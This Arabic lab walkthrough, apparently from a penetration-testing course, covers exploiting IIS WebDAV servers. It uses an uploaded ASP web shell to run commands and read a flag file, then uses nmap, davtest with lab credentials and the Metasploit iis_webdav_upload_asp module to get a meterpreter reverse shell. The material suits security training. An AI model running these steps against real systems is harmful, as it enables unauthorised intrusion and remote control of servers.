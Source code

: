 طبعا الان نقدر ندخل على الويب شيل الي رفعناه عن طريق هذا الـ URL
[http://10.6.22.214/webdav/webshell.asp]
ونعطيه اليوزر والباسورد
ونشوف انه دخلنا على الويب شيل وننفذ اوامرنا بكل سهوله 
طبعا زي ماذكرت سابق تقدر تاخذ reverse shell بما انه قدرنا نرفع الملف وندخل عليه 
زي مانلاحظ فيه خانه اعلى الصفحة نقدر نكتب فيها الامر ونضغط run
وراح يتنفذ معك الامر
نجرب ننفذ هذا الامر whoami
وراح يكون الـ URL بهالشكل
[http://10.6.22.214/webdav/webshell.asp?cmd=whoami]

طبعا مطلوب مننا نقرا الفلاق ف تقعد تدور الفلاق لكن اختصار للوقت حنا نعرف انه في هذا المسار
C:\flag.txt
فراح نقراه بهذا الامر
[type C:\flag.txt] 
بعدها نضغط run
ونلاحظ انه جبنا الفلاق

---

طبعا ثاني لاب معنا فيه هذا الجزء هو اللاب

Windows: IIS Server: WebDav Metasploit
---------------------------------------|

طبعا في هذا اللاب راح نطبق نفس الشي لكن باستخدام MSFconsole

زي مانشوف معطينا الايبي

راح نفحصه بالـ nmap scan
[nmap -sV 10.0.17.27]
نلاحظ ان بورت 80 شغال 
راح نستخدم نفس السكربت السابق عشان نشوف ايش السيرفر الي شغال على بورت 80
[nmap --script http-enum -sV -p 80 10.0.17.27]

ونشوف انه عطانا نفس النتيجه والي هو سيرفر webdav 
وقالنا انه رفض يدخله السيرفر لانه مامعه يوزر وباسورد

راح نجرب الان باداة davtest نفس الي سويناه سابقا
[davtest -url http://10.0.17.27/webdav]
ونشوف انه عطانا نفس النتيجة Unauthorized

بنجرب نعطيه الان اليوزر والباسورد الي موجوده باللاب
[davtest -auth bob:password_123321 -url http://10.0.17.27/webdav]
ونشوف انه دخلنا وعطانا ايش يقبل السيرفر من اكستنشنز

الان بشنغل الفريم وورك
[msfconsole]
ونستخدم هذا الموديول
[use exploit/windows/iis/iis_webdav_upload_asp] وظيفته يرفع لك الملف
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
طالب مننا HttpUsername , HttpPassword ,RHOST
[set RHOSTS 10.0.17.27]
[set HttpUsername bob]
[set HttpPassword password_123321]
[set PATH /webdav/metasploit%RAND%.asp] طبعا الي بعد /webdav تقدر تتحكم فيه لانه اسم الملف
[exploit] or [run]
ونشوف انه عطانا الاتصال الان فورا وعطانا ريفيرس شيل
مطلوب مننا الفلاق
نعرف انه في هذا المسار وطبعا لانه السيشن الي معنا هي meterpreter session
نقدر ننفذ اوامر لينكس حتى وان كان النظام ويندوز لكن لو تكتب shell
ماراح تقدر تتعامل مع النظام الا بنفس اوامر النظام المخترق
